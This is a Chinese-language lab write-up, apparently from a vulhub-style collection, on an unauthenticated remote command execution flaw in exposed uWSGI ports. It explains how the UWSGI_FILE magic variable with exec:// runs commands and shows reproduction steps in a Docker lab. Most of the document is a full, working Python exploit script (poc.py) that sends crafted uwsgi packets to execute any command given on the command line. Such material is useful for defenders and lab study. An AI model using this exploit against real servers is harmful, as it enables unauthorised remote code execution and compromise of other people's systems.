 uWSGI 未授权访问漏洞
====================

一、漏洞简介
------------

WSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言，通常被用于运行Python
WEB应用。uwsgi除了是应用容器的名称之外，它和Fastcgi之类的一样，也是前端server与后端应用容器之间的一个交流标准。目前nginx，apache也支持uwsgi协议进行代理转发请求。

uWSGI支持通过魔术变量（Magic
Variables）的方式动态配置后端Web应用。如果其端口暴露在外，攻击者可以构造uwsgi数据包，并指定魔术变量`UWSGI_FILE`，运用`exec://`协议执行任意命令。

二、漏洞影响
------------

三、复现过程
------------

使用poc.py，执行命令`python poc.py -u your-ip:8000 -c "touch /tmp/success"`：

![1.png](resource/uWSGI未授权访问漏洞/media/rId24.png)

执行`docker-compose exec web bash`进入容器，可见`/tmp/success`已经成功执行：

![2.png](resource/uWSGI未授权访问漏洞/media/rId25.png)

    poc.py
    #!/usr/bin/python
    # coding: utf-8
    ######################
    # Uwsgi RCE Exploit
    ######################
    # Author: wofeiwo@80sec.com
    # Created: 2017-7-18
    # Last modified: 2018-1-30
    # Note: Just for research purpose

    import sys
    import socket
    import argparse
    import requests

    def sz(x):
        s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
        s = bytes.fromhex(s) if sys.version_info[0] == 3 else s.decode('hex')
        return s[::-1]


    def pack_uwsgi_vars(var):
        pk = b''
        for k, v in var.items() if hasattr(var, 'items') else var:
            pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
        result = b'\x00' + sz(pk) + b'\x00' + pk
        return result


    def parse_addr(addr, default_port=None):
        port = default_port
        if isinstance(addr, str):
            if addr.isdigit():
                addr, port = '', addr
            elif ':' in addr:
                addr, _, port = addr.partition(':')
        elif isinstance(addr, (list, tuple, set)):
            addr, port = addr
        port = int(port) if port else port
        return (addr or '127.0.0.1', port)


    def get_host_from_url(url):
        if '//' in url:
            url = url.split('//', 1)[1]
        host, _, url = url.partition('/')
        return (host, '/' + url)


    def fetch_data(uri, payload=None, body=None):
        if 'http' not in uri:
            uri = 'http://' + uri
        s = requests.Session()
        # s.headers['UWSGI_FILE'] = payload
        if body:
            import urlparse
            body_d = dict(urlparse.parse_qsl(urlparse.urlsplit(body).path))
            d = s.post(uri, data=body_d)
        else:
            d = s.get(uri)

        return {
            'code': d.status_code,
            'text': d.text,
            'header': d.headers
        }


    def ask_uwsgi(addr_and_port, mode, var, body=''):
        if mode == 'tcp':
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(parse_addr(addr_and_port))
        elif mode == 'unix':
            s = socket.socket(socket.AF_UNIX)
            s.connect(addr_and_port)
        s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
        response = []
        # Actually we dont need the response, it will block if we run any commands.
        # So I comment all the receiving stuff. 
        # while 1:
        #     data = s.recv(4096)
        #     if not data:
        #         break
        #     response.append(data)
        s.close()
        return b''.join(response).decode('utf8')


    def curl(mode, addr_and_port, payload, target_url):
        host, uri = get_host_from_url(target_url)
        path, _, qs = uri.partition('?')
        if mode == 'http':
            return fetch_data(addr_and_port+uri, payload)
        elif mode == 'tcp':
            host = host or parse_addr(addr_and_port)[0]
        else:
            host = addr_and_port
        var = {
            'SERVER_PROTOCOL': 'HTTP/1.1',
            'REQUEST_METHOD': 'GET',
            'PATH_INFO': path,
            'REQUEST_URI': uri,
            'QUERY_STRING': qs,
            'SERVER_NAME': host,
            'HTTP_HOST': host,
            'UWSGI_FILE': payload,
            'SCRIPT_NAME': target_url
        }
        return ask_uwsgi(addr_and_port, mode, var)


    def main(*args):
        desc = """
        This is a uwsgi client & RCE exploit.
        Last modifid at 2018-01-30 by wofeiwo@80sec.com
        """
        elog = "Example：uwsgi_exp.py -u 1.2.3.4:5000 -c \"echo 111>/tmp/abc\""
        
        parser = argparse.ArgumentParser(description=desc, epilog=elog)

        parser.add_argument('-m', '--mode', nargs='?', default='tcp',
                            help='Uwsgi mode: 1. http 2. tcp 3. unix. The default is tcp.',
                            dest='mode', choices=['http', 'tcp', 'unix'])

        parser.add_argument('-u', '--uwsgi', nargs='?', required=True,
                            help='Uwsgi server: 1.2.3.4:5000 or /tmp/uwsgi.sock',
                            dest='uwsgi_addr')

        parser.add_argument('-c', '--command', nargs='?', required=True,
                            help='Command: The exploit command you want to execute, must have this.',
                            dest='command')

        if len(sys.argv) < 2:
            parser.print_help()
            return
        args = parser.parse_args()
        if args.mode.lower() == "http":
            print("[-]Currently only tcp/unix method is supported in RCE exploit.")
            return
        payload = 'exec://' + args.command + "; echo test" # must have someting in output or the uWSGI crashs.
        print("[*]Sending payload.")
        print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))

    if __name__ == '__main__':
        main()

参考链接
--------

> https://github.com/vulhub/vulhub/blob/master/uwsgi/unacc/README.zh-cn.md
